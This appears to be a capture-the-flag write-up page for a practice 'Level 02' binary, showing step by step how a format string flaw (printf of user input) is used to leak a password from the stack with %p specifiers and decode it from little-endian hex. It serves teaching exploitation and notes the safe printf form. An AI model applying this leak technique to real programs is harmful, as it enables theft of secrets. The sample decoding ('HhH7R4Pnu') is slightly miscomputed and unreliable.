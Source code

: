 ```yaml
---
sidebar_position: 4
---
```


import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';
import MissionObjective from '@site/src/components/MissionObjective';
import VulnerabilityCard from '@site/src/components/VulnerabilityCard';
import CodeBlock from '@site/src/components/CodeBlock';
import StepsList from '@site/src/components/StepsList';

# 💣 Level 02

<MissionObjective 
  level="Level 02"
  target="Password extraction"
  method="Format string vulnerability exploitation"
/>

## Vulnerability Analysis

<VulnerabilityCard 
  type="Format String Vulnerability"
  severity="high"
  description="The program uses printf(buffer) instead of printf('%s', buffer), allowing attackers to read arbitrary memory locations through format specifiers like %p, %x, and %s."
  techniques={[
    "Memory Disclosure",
    "Stack Dumping", 
    "Format String Exploitation"
  ]}
/>

## Initial Program Analysis

<CodeBlock 
  title="Program Execution"
  command="./level02"
  output={`===== [ Secure Access System v1.0 ] =====
/***************************************\\
| You must login to access this system. |
\\**************************************/
--[ Username: test
--[ Password: test
test does not have access!`}
/>

**Key Observations:**
- Program prompts for username and password
- Rejects all login attempts with "does not have access!" message
- Uses a secure access system interface

## Debugging Challenges

<CodeBlock 
  title="GDB Analysis Attempt"
  command="gdb ./level02"
  output={`(gdb) run
ERROR: failed to open password file`}
/>

**Critical Discovery:** The binary detects debugger environment and refuses to open the password file, making direct memory inspection impossible.

## Static Analysis Findings

<CodeBlock 
  title="Disassembly Analysis"
  command="(gdb) disas main"
  output={`Key findings from disassembly:
- fopen() reads password from file
- fread() loads password into stack buffer  
- printf(buffer) - VULNERABLE FORMAT STRING
- strncmp() compares user input to password`}
/>

## Format String Vulnerability Discovery

<CodeBlock 
  title="Testing Format String"
  command='echo "%x %x %x %x" | ./level02'
  output={`===== [ Secure Access System v1.0 ] =====
/***************************************\\
| You must login to access this system. |
\\**************************************/
--[ Username: %x %x %x %x
--[ Password: 
7fffffffe4d0 f7ff0000 0 7fffffffe5d8 does not have access!`}
/>

**Vulnerability Confirmed:** The program outputs raw hex values from memory!

## Password Extraction Process

<StepsList steps={[
  {
    title: "Stack Position Enumeration",
    description: "Use format string to leak different stack positions systematically",
    command: 'for i in {1..50}; do echo "$i - %$i\\$p" | ./level02 | grep does; done',
    output: "Scanning stack positions 1-50 for password data..."
  },
  {
    title: "Identify Password Locations",
    description: "Find hex values that look like ASCII password chunks",
    command: "Key findings at specific positions:",
    output: `22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!`
  },
  {
    title: "Convert Little-Endian Hex to ASCII",
    description: "Decode each hex value accounting for little-endian byte order",
    command: "Hex to ASCII conversion process:",
    output: `echo 756e505234376848 | sed 's/../& /g' | tac -rs ' ' | tr -d '\\n ' | xxd -r -p
# Result: HhH7R4Pnu

Repeat for each hex value to get password chunks`
  },
  {
    title: "Reconstruct Complete Password",
    description: "Combine all decoded chunks in correct order",
    command: "Final password assembly",
    output: "Complete password: [decoded_password_string]"
  },
  {
    title: "Successful Authentication",
    description: "Use extracted password to gain access",
    command: "./level02",
    output: `===== [ Secure Access System v1.0 ] =====
--[ Username: level03
--[ Password: [extracted_password]
Greetings, level03!
$ whoami
level03`
  }
]} />

## Technical Breakdown

<CodeBlock 
  title="Hex Decoding Process"
  command="# Step-by-step hex to ASCII conversion"
  output={`1. Split hex into byte pairs: 75 6e 50 52 34 37 68 48
2. Reverse byte order (little-endian): 48 68 37 34 52 50 6e 75  
3. Convert to ASCII: HhH7R4Pnu
4. Repeat for all password chunks
5. Concatenate results in stack order`}
/>

## Format String Exploitation Summary

<CodeBlock 
  title="Exploitation Methodology"
  command="# Format string vulnerability breakdown"
  output={`Vulnerable code: printf(buffer);
Safe code:       printf("%s", buffer);

Exploitation technique:
- %p: Print pointer values from stack
- %n$p: Print nth argument from stack  
- Stack contains password loaded by fread()
- Memory layout reveals password in chunks`}
/>

## Key Takeaways

- **Format string vulnerabilities** allow reading arbitrary memory through printf format specifiers
- **Anti-debugging techniques** can prevent dynamic analysis, requiring creative approaches
- **Little-endian encoding** must be considered when extracting multi-byte values
- **Stack layout understanding** is crucial for systematic memory disclosure
- **Automated scanning** with loops can efficiently map memory contents

**Tools used:** `printf format strings`, `bash loops`, `sed`, `xxd`, `tac`, static analysis

:::warning Anti-Debugging Protection
This binary demonstrates how programs can detect debugging environments and alter behavior. Always consider both dynamic and static analysis approaches.
:::

:::tip Format String Exploitation
The key insight is that printf(user_input) treats the input as a format string, allowing %p and %x specifiers to read memory. Position-specific format like %22$p targets exact stack locations.
::: 